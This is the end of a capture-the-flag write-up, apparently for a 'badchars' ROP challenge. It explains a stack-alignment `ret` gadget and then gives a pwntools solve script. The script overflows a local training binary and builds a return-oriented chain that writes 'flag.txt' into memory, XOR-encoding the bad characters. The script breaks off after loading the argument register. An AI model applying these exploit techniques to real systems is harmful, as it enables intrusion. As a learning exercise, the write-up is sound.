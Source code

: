 To fix this, we can just plug a simple `ret` gadget into the end of our payload. This gadget:
```
0x00000000004004ee : ret
```
will work just fine.

### Final solution
Here's the final exploit:

filename=solve.py
```py
from pwn import *

elf = ELF('./badchars')
p = process('./badchars')

# 0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000400634 : mov qword ptr [r13], r12 ; ret
# 0x00000000004006a0 : pop r14 ; pop r15 ; ret
# 0x0000000000400628 : xor byte ptr [r15], r14b ; ret

CHUNKSIZE = 8
r = 100
def write_str(target, str, badchars=[]):
    payload = b''
    chunks = [str[i:i+CHUNKSIZE].encode() for i in range(0, len(str), CHUNKSIZE)]

    for i, chunk in enumerate(chunks):
        rchunk = b''
        r_indexes = []
        for j, c in enumerate(chunk):
            if chr(c) in badchars: # keep track of which indexes we need to xor later
                rchunk += bytes([c ^ r])
                r_indexes.append(j)
            else:
                rchunk += bytes([c])

        # 0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
        payload += p64(0x40069c)
        payload += rchunk                       # r12
        payload += p64(target + i * CHUNKSIZE)  # r13
        payload += b'\x00' * 8                  # r14
        payload += b'\x00' * 8                  # r15

        # 0x0000000000400634 : mov qword ptr [r13], r12 ; ret
        payload += p64(0x400634)

        # 0x00000000004006a0 : pop r14 ; pop r15 ; ret
        # 0x0000000000400628 : xor byte ptr [r15], r14b ; ret
        for j in r_indexes:
            payload += p64(0x4006a0)
            payload += bytes([r]).ljust(8, b'\x00')     # r14
            payload += p64(target + i * CHUNKSIZE + j)  # r15

            payload += p64(0x400628)                    # xor gadget

    return payload

payload = b'A' * 0x28
payload += write_str(elf.symbols['__data_start'] + 1, 'flag.txt', ['.', 'x', 'g', 'a'])

payload += p64(0x4006a3) # pop rdi ; ret
payload += p64(elf.symbols['__data_start'] + 1)

```